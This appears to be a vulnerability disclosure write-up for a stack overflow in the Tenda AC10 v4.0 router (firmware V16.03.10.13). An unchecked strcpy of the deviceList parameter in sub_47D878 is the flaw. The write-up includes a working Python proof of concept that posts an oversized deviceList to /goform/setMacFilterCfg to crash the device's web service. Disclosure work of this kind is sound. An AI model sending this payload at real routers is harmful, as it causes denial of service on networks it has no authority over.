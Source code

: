 # Tenda Router Vulnerability on sub_47D878 function

> vendor:Tenda
>
> product:AC10
>
> version:v4.0 V16.03.10.13 
>
> type:Stack Overflow  

## Vulnerability Description

Tenda AC10V4.0 V16.03.10.13 were discovered to contain a stack overflow via the `src` parameter in the `sub_47D878` function.

## Vulnerability Details

In function  `sub_47D878`  line 8, `src` reads from the caller function `formSetMacFilterCfg` in a user-provided parameter  `deviceList`, and the variable is passed to the function `strcpy` in line 28、29 without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.

![image-20231004164338530](assets/sub_47d878_code.png)

## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```
import requests

ip = '192.168.0.1'
headers = {
    'Host': ip,
    'Accept': '*/*',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Connection': 'close',
}

deviceList = '1'*1000 + "\r10:11:11:11:11:22"
data = 'macFilterType=black&deviceList='+ deviceList


response = requests.post(
    f'http://{ip}/goform/setMacFilterCfg',
    headers=headers,
    data=data,
    verify=False,
)

```

